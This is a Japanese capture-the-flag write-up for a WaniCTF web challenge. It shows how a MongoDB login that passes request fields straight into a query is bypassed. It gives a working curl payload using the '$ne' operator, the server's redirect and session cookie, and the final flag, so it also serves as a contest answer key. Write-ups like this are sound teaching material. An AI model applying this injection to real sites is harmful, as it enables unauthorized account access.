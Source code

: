 # NoSQL:Web:224pts
NoSQLを使ったサイトを作ってみました。ログイン後に`/`にアクセスすると秘密のページを見ることができます。  
[https://nosql.web.wanictf.org/](https://nosql.web.wanictf.org/)  
[web-nosql.zip](web-nosql.zip)  

# Solution
アクセスするとログインフォームがある。  
NoSQL Challenge  
[site.png](site/site.png)  
適当にログイン試行してみるが、失敗する。  
ソースコードが配布されているので、それを読むと`app/routes/login.js`でMongoDBよりユーザを取得している。  
```JavaScript
~~~
    await client.connect();
    const user = await client.db("nosql").collection("users").findOne({
      username: req.body.username,
      password: req.body.password,
    });
    if (!user) {
      throw "error";
    }
~~~
```
オブジェクトを渡せる典型的な脆弱性があるので`{"$ne":"Satoki"}`などでパスワードがSatokiでないユーザでログインできる。  
```bash
$ curl https://nosql.web.wanictf.org/login --data '{"username":"admin","password":{"$ne":"Satoki"}}' -H "Content-type: application/json" -v
~~~
< HTTP/2 302
< content-type: text/plain; charset=utf-8
< date: Sat, 06 Nov 2021 11:01:22 GMT
< location: /
< set-cookie: connect.sid=s%3AqYGleLocAVbTqSODMmPPxow1z4wTVIs7.vabFzQ8Z8PEfAkYoJM3cw9CWsjwLmH7wyDBhH0nYItY; Path=/; HttpOnly
< vary: Accept
< x-powered-by: Express
< content-length: 23
<
* Connection #0 to host nosql.web.wanictf.org left intact
Found. Redirecting to /
```
ログイン後のクッキーで`/`にアクセスするとflagが表示された。  
flag  
[flag.png](site/flag.png)  

## FLAG{n0_sql_1nj3ction} 